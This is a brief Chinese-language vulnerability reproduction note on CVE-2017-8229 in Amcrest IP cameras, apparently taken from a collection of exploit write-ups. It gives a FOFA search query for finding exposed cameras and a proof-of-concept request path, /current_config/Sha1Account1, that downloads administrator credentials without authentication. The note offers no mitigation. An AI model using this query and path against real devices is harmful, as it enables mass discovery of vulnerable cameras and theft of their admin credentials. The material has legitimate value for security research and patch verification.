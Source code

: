 # Amcrest IP Camera Web Sha1Account1 账号密码泄漏漏洞 CVE-2017-8229

## 漏洞描述

Amcrest IP Camera Web是Amcrest公司的一款无线IP摄像头，设备允许未经身份验证的攻击者下载管理凭据。

## 漏洞影响

```
Amcrest Technologies. Amcrest IP Camera Web all
```

## FOFA

```
"Amcrest"
```

## 漏洞复现

登录页面

![image-20220519161504045](./images/202205191616449.png)

POC

```
/current_config/Sha1Account1
```

![image-20220519161546887](./images/202205191616340.png)